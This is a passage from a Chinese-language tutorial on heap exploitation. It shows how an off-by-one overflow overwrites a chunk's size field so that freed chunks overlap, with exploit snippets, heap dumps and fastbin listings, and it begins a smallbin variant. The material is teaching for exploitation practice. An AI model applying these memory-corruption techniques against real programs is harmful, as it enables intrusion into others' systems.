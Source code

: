 因为堆块0的大小为0x18，因为堆块需要对齐，所以堆块0的后0x8个字节占用了堆块1的pre\_size 域，这样我们就可以通过溢出一个字节来控制堆块1的size。

程序是存在off-by-one漏洞的，我们可以写比堆块大小多1个字节的内容，

```·
edit(0,p64(0)*3+'\x41')
```

```·
0000000000000000  0000000000000021  <--0
0000000000000000  0000000000000000
0000000000000000  0000000000000041  <--1
0000000000000000  0000000000000000
0000000000000000  0000000000000021  <--2
0000000000000000  0000000000000000
0000000000000000  0000000000201545  <--top chunk
0000000000000000  0000000000000000
0000000000000000  0000000000000000
```

第二个堆块的size被改成了0x41，将堆块3包含了起来。我们将堆块1free掉之后，观察一下

```·
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30]  ←  Chunk(addr=0x602010, size=0x40, flags=PREV_INUSE) 
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
```

发现程序已经将堆块1、2一齐free掉了，但是我们还可以对堆块2进行操作，读写等。

我们再执行malloc(0x30)会将堆块1、2一齐申请回来。我们就可以对堆块2的内容进行控制，如：进行Use After Free、fastbin attack等。

#### 利用off-by-one 对 inuse 的 smallbin 进行 extend

```·
add(0x18)#0
add(0x80)#1
add(0x10)#2
add(0x10)#3 
```

堆块3用于防止合成的堆块与top chunk合并，非fastbin大小的堆块处于free状态下，如果与top chunk相邻则与其合并。

此时堆内状况为：

```·
0000000000000000  0000000000000021  <--0
0000000000000000  0000000000000000
0000000000000000  0000000000000091  <--1
0000000000000000  0000000000000000
0000000000000000  0000000000000000
0000000000000000  0000000000000000
0000000000000000  0000000000000000
0000000000000000  0000000000000000
0000000000000000  0000000000000000
0000000000000000  0000000000000000
0000000000000000  0000000000000000
0000000000000000  0000000000000021  <--2
0000000000000000  0000000000000000
0000000000000000  0000000000000021  <--3
0000000000000000  0000000000000000
0000000000000000  0000000000201545  <--top chunk
0000000000000000  0000000000000000
0000000000000000  0000000000000000
```

